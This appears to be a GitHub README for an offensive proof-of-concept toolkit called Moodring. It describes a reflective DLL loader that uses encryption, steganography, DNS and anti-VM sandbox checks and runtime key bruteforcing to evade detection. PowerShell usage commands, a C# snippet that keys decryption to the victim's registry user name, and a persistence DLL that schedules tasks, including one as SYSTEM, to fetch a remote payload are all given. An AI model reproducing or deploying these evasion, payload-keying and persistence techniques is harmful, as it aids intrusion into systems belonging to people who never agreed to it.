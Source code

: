 ## Moodring
PoC reflective DLL loader with encryption, steg and env checks. Decryption key is bruteforced at runtime after DNS server check is performed. 

### Cryptorchid - Encrypt and Hide 
Command line Encrypt/Decrypt tool, can test if the hash can be retrieved and payload decrypted successfully prior to putting it in the pipeline

```powershell
# Skip DNS check, use steganography, and encrypt the dll using AAAA and steg the hash into nogo.png, to created nogo_copy.png
 .\Cryptorchid.exe -nodns -steg AAAA .\calc.dll .\Logo.png

# Check DNS match for google and check for Sandbox VMs, looks for encyrpted 'mod.txt' and nogo_copy.png in the current dir, bruteforce to decrypt and load
# This is to test the sideloading dll, change these values in Decryptorchid source under Program.Main().
 .\Cryptorchid.exe 8.8.8.8 -antivm -stegload .\Logo_copy.png "Calc.Modes.RunCalc.Execute"

 # Pull hash from steg image and decrypt output to view (meant for text/test, will print the contents of dlls)
 .\Cryptorchid.exe -nodns -desteg  .\nogo_copy.png
```

### Decryptorchid - Decrypts payload from encrypted text file using hash stored in image
Sideloading DLL, bruteforces the payloads decryption and loads target into memory, invoking your desired method. 


TODO: Have this an encrypted value we can pull as well from another image, get rid of the text file.
TODO: if O365, keying off the email is possible since regkey can be used that contains users email.
 Query Key > Hash Value > Store Hash and Compare against our stored value, if match, decrypt.

string storedHashValue = "";
 string regValue = Microsoft.Win32.Registry.GetValue(@"HKEY_CURRENT_USER\", "upn" null);
string upnName = (string)regValue;
 string hashedUpnValue = GetSHA256Hash(upnName);
 bool correctKey = hashedUpnValue.Equals(storedHashValue);
 if (correctKey){
    var rawPayload = rc4EncDecrypt(Encoding.UTF8.GetBytes(payload), upnName);
 }
 // run that motha

 Nope, target the ost/nst file instead, regkey incosistent.


### Taskmasker 
Persister DLL, checks users permissions and creates a task, fetching a remote payload to an AppData directory. If admin, two tasks are created, one to run as SYSTEM. 

